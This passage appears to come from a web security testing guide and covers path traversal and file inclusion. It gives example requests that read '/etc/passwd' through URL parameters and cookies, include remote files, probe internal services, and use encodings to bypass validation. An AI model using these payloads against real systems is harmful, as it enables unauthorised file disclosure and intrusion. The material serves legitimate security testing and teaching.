 Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

For the cookies example:

`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

It's also possible to include files and scripts located on external website.

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way.

`http://example.com/index.php?file=file:///etc/passwd`

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services.

`http://example.com/index.php?file=http://localhost:8080 or http://example.com/index.php?file=http://192.168.0.2:9080`

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.

`http://example.com/main.cgi?home=main.cgi`

The component called “*main.cgi*” is located in the same directory as the normal HTML static files used by the application. In some cases the tester needs to encode the requests using special characters (like the “**.**” dot, “**%00**” null, ...) in order to bypass file extension controls or to prevent script execution.

**Tip:** It's a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn't successful, try another encoding scheme.
